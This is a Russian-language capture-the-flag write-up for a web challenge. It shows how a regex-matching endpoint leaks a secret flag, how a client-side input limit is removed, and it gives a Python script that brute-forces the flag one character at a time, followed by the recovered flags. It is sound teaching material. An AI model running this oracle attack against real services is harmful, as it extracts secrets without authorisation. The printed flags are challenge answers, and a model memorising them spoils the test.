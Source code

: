 # Words Of Power

1. На странице нас ожидает синий крутящийся портал, два слеша `/ /`, поле для ввода между ними, и кнопка отправки. Первым делом попробуем ввести что-нибудь в инпут:
   
![img.png](images/img1.png)

2. Введем теперь что-нибудь еще:
   
![img.png](images/img2.png)

3. Поэкспериментировав и еще раз посмотрев на два слеша нетрудно догадаться, что приложение применяет регулярное выражение к некоторому тексту. 
   
4. Теперь заглянем в девтулзы, откроем вкладку `Network` и посмотрим, что происходит при отправке. Выполняется запрос на `/cast/{word}`, в котором word - написанное нами слово, закодированное с помощью base64. Результат запроса - `true` или `false`.

5. Нам нужно получить флаг, и мы знаем в каком он формате. Попробуем написать в поле `VrnCTF{[^]+}`. О чудо - портал зеленый. Значит, наверно, мы действуем правильно.

![img.png](images/img3.png)

6. На этом моменте мы столкнемся с проблемой - в поле для ввода нельзя ввести больше 12 символов. Это ограничение можно легко убрать, изменив в коде элемента `maxlength="12"` на, к примеру, 100.

7. Начнем подбирать флаг. Указанное нами в последний раз регулярное выражение `VrnCTF{[^]+}` означает, что в фигурных скобках должно находиться несколько символов (больше нуля). Т.к. ограничения на количество вводимых символов больше нет, то начнем уточнять наш запрос. Введем `VrnCTF{a[^]+}` и увидим, что портал все еще зеленый. На `VrnCTF{ab[^]+}` - красный. Развлекаться так можно долго :) Особенно учитывая то, что в тексте находятся три флага, и только один из них правильный.

8. Проще всего написать скрипт, который будет делать эти действия за нас. Ведь сайт предоставляет нам страницу `/cast/{word}`. Предлагаю решение на Python

```python
import requests
from requests.utils import requote_uri
import base64

link = "http://site-url"

def gen_payload(flag):
    return base64.b64encode(str(requote_uri("VrnCTF{" + flag + "[^]*}")).encode()).decode()


alpabet = "abcdefghijklmnopqrstuvwxyz1234567890_"
flag = ""

for first_char in alpabet:
    flag = first_char
    print(flag)

    if requests.get(link + "/cast/" + gen_payload(flag)).text == "false":
        continue

    while True:
        found = False
        for c in alpabet:
            temp_flag = flag + c
            r = requests.get(link + "/cast/" + gen_payload(temp_flag))

            if r.text == "true":
                flag = temp_flag
                print(flag)
                found = True
                break
        if not found:
            if len(flag) > 1:
                print("Done: VrnCTF{" + flag + "}")
            break

```

   Этот скрипт найдет все три флага: `VrnCTF{a_wr0ng_fl4g}`, `VrnCTF{th15_15_wr0ng_t00}` и `VrnCTF{r3g3xp_15_c00l}`, верный из которых, очевидно, последний.